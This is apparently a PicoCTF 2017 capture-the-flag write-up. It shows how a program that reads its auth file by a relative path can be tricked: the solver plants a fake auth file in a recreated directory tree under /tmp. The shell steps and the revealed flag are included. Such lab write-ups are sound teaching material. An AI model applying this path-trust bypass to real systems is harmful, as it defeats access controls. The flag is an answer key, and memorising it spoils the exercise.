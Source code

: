 # PicoCTF 2017 - Level 1 - Just No

**Category:** Binary Exploitation **Points:** 40

**Description:**

> A program at /problems/ab718be873f8a7efe966f4ed5af749eb has access to a flag but 
> refuses to share it. Can you convince it otherwise?

Alright so we have a file called justno and it's accompanying code in C. Looking at the
C code we see a couple of important lines

```
FILE* authf = fopen("../../problems/ab718be873f8a7efe966f4ed5af749
eb/auth","r");

flagf = fopen("/problems/ab718be873f8a7efe966f4ed5af749eb/flag",
"r");
```

No matter where this program is run, the second call to open the flag will run at the
absolute path provided, whereas the read of the auth file will execute on the path
relative to the users current location. So we need to create a new auth file in a
path that follows the conventions above.

```
$ mkdir /tmp/abcde/
$ mkdir /tmp/abcde/problems/
$ mkdir /tmp/abcde/problems/ab718be873f8a7efe966f4ed5af749eb
$ cd /tmp/abcde/problems/ab718be873f8a7efe966f4ed5af749eb
$ echo "yes" > auth
$ /problems/ab718be873f8a7efe966f4ed5af749eb/justno            
Oh. Well the auth file doesn't say no anymore so... Here's the flag:
 3a7cbd7c24f7d5369308333b045382e7
```

The trick here is that the relative path doesn't relate to where the program is, but where
the user is when they execute the program. Were this an absolute path, 
this exploit would not be possible.


